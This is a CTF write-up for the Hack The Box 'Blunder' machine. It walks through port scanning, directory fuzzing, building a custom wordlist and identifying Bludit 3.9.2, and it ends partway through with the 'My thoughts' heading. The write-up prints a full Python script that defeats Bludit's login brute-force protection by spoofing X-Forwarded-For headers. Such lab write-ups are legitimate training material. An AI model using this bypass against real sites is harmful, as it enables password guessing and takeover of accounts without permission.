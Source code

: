 ```yaml
---
title: "Blunder"
author: "Me"
date: "June 22, 2020"
output: html_document
---
```


# Blunder

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: easy (3.9/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Linux</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_blunder_desc.png){: height="250px" width = "280px"}
</div>

<ins>**Lab configuration**</ins>

First, download VirtualBox and Kali (or Parrot). When the machine is imported in VirtualBox, chose *bridged adapter* in the Network tab to have access to the internet. Start and set up the machine as you like.

*Blunder* is a retired box of Hack The Box, and it is necessary to get a **VIP access** in order to do it (10$/month). Then, it's super easy and convenient to connect to it. The first thing to do is to download the connection pack at <https://www.hackthebox.eu/home/htb/access>. Then, open a terminal (make sure you're in the same directory as your connection file (*yourname*.ovpn)) and type the following command:

~~~~
openvpn yourname.ovpn
~~~~~

Where *yourname* is your username on Hack The Box. 
If you're using **Kali 2020**, make sure to add **sudo** to the previous command.

When this is done, just look at the IP of the machine on HTB (Hack the Box). *Blunder* is given the IP 10.10.10.191.\\
We're ready to start !

## 1. Scan the ports of the target
{:style="color:DarkRed; font-size: 170%;"}

Let's start by performing the usual nmap scan with the flags *-sV* to have a verbose output and *-sC* to enable the most common scripts scan.

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_blunder_nmap.png)
</div>

We see that FTP is closed, so our only possibility is port 80.


## 2. Find and exploit vulnerabilities
{:style="color:DarkRed; font-size: 170%;"}

**<u>HTTP</u>**

We saw there is a web server running, so let's check what's there:

<div class="img_container">
![website]({{https://jsom1.github.io/}}/_images/htb_blunder_web.png)
</div>

The page talks about Stephen King, Stadia and USB. A quick look through these articles doesn't reveal anything interesting. We can use Gobuster to search for interesting directories.

<div class="img_container">
![Gobuster]({{https://jsom1.github.io/}}/_images/htb_blunder_gobuster.png)
</div>

The first 3 files look interesting, but we see a 403 error message, meaning we can't access them. Then, there's */admin* and */robots.txt*. This latter is a text file with instructions for search engine crawlers. The file says what directories crawlers cannot search, and it is the first file opened by crawlers when they visit the site. Here, the file contains the following instructions:

<div class="img_container">
![robots.txt]({{https://jsom1.github.io/}}/_images/htb_blunder_robots.png)
</div>

*User-agent* denotes the name of the crawler (which can be found in the Robots Database). Here, \* means that any crawler can access the site.\\
*Allow:* is used to specify what areas of the website can be visited by the crawler. Here, it can go anywhere. This file isn't particularly interesting in this case, but sometimes it lists juicy directories and files that we can inspect to gather information.\\
We also saw */admin*, so let's head there and see it:

<div class="img_container">
![login]({{https://jsom1.github.io/}}/_images/htb_blunder_login.png)
</div>

After trying a few obvious and common credentials, I thought I would use Hydra and try to bruteforce credentials. First, we must know how the request is sent and processed by the server. To do so, we can either use the web developer mode in Firefox and look at the parameters when we submit credentials, or we can use Burp suite.\\
To use Burp, first have to configure the Proxy correctly. In Firefox, go to *Preferences* and search for *proxy*. Open the *Settings...* and make sure that *Manual proxy configuration is selected*. Change *HTTP Proxy* to 127.0.0.1 and port to 80. The settings should look like the following:

<div class="img_container">
![Proxy settings]({{https://jsom1.github.io/}}/_images/htb_blunder_proxy.png)
</div>

When this is done, we can open Burp suite. In the tab *Proxy* and *Intercept*, make sure that *intercept is on*. We're ready to submit random credentials on the login screen and analyze what happens:

<div class="img_container">
![Burp]({{https://jsom1.github.io/}}/_images/htb_blunder_burp.png)
</div>

We see it's a POST request (no surprise), and we see the syntax for the username and password. Note that we also have information on the User-agent (for robots.txt). There is also a cookie and a tokenCSRF. At this point, we should be able to write the Hydra command.

<div class="img_container">
![Hydra]({{https://jsom1.github.io/}}/_images/htb_blunder_hydra.png)
</div>

It found something, but after trying the credentials on the login page, I was sad to see it didn't work. I tried many different commands with different wordlists for username and password (here we see we're not specifying the cookie), and Hydra always found wrong credentials (false positives).\\

I had to look at the forum to get some hints. Many people were talking about **fuzzing**, and I finally understood they were refering to **wfuzz**. Wfuzz is a tool I didn't know about, and is used to bruteforce web applications. After looking at the help (*wfuzz --help*), I fired the following command:

<div class="img_container">
![wfuzz]({{https://jsom1.github.io/}}/_images/htb_blunder_hydra.png)
</div>

Note that I had to try with different wordlists, and filtered the results so that it doesn't show 404 errors. We see some files that Gobuster found, but this time we get a new one: *todo*.\\
Back in the browser, we find the file by adding the *.txt* extension:

<div class="img_container">
![todo]({{https://jsom1.github.io/}}/_images/htb_blunder_todo.png)
</div>

We see that FTP was effectively turned off, but we also get a potential username. Also on the forums, people were talking about creating a custom wordlist to brute force the login. I then discovered another tool I didn't know about, **cewl**. This allows to generate a wordlist from a web page. So let's use it and create a custom wordlist that we'll call *wordlist.txt*:

<div class="img_container">
![cewl]({{https://jsom1.github.io/}}/_images/htb_blunder_cewl.png)
</div>

The flag *-d* represents the depth to spider to, and *-m* the minimum word length (the default is 3). The output is the following:

<div class="img_container">
![cewl2]({{https://jsom1.github.io/}}/_images/htb_blunder_cewl2.png)
</div>

Finally, let's create a *user.txt* file containing some variations of *fergus* (uppercase, lowercase, ...). We can just *nano user.txt* and enter the words. We have a user and a password list, so we can try a bruteforce attack. However, Hydra doesn't seem to work, and after looking at the forum, this might be the reason why:

<div class="img_container">
![bludit documentation]({{https://jsom1.github.io/}}/_images/htb_blunder_bluditdoc.png)
</div>

Apparently, the CMS prevents bruteforce attacks. The versions affected are <= 3.9.2. Now this was a little lucky, but I found the version when inspecting the page:

<div class="img_container">
![bludit version]({{https://jsom1.github.io/}}/_images/htb_blunder_version.png)
</div>

Note that we also saw in the todo note that the version had to be updated, and apparently, it hasn't been done yet.\\
The way to bypass this anti bruteforce mechanism is given in the following proof of concept (available at <https://rastating.github.io/bludit-brute-force-mitigation-bypass/>):

~~~
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
~~~~~

So we're going to copy this script and try to adapt it to fit our case. Let's create a script called *bruteforce.py* on the Desktop, and adapt it to our needs.

<ins>**My thoughts**</ins>
